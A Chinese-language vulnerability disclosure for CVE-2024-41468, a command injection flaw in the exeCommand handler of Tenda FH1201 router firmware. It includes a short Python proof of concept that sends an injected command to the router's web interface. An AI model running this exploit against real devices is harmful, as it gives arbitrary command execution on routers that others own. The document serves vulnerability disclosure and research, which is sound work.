 # Tenda-FH1201存在命令注入漏洞(CVE-2024-41468)

Tenda FH1201 v1.2.0.14存在命令注入漏洞，位于exeCommand函数中，cmdinput参数未经任何过滤就被复制到栈空间v7中，然后执行，因此攻击者可以利用该漏洞执行任意命令

固件下载网站：https://www.tendacn.com/download/detail-3322.html

![image-20240730214911627](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407302149682.png)

## poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/exeCommand"


data = "cmdinput=ls;"
ret = requests.post(url=url,data=data)
```

![image-20240730214940461](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407302149496.png)

## 漏洞来源

- https://github.com/iotresearch/iot-vuln/blob/main/Tenda/FH1201/exeCommand/README.md
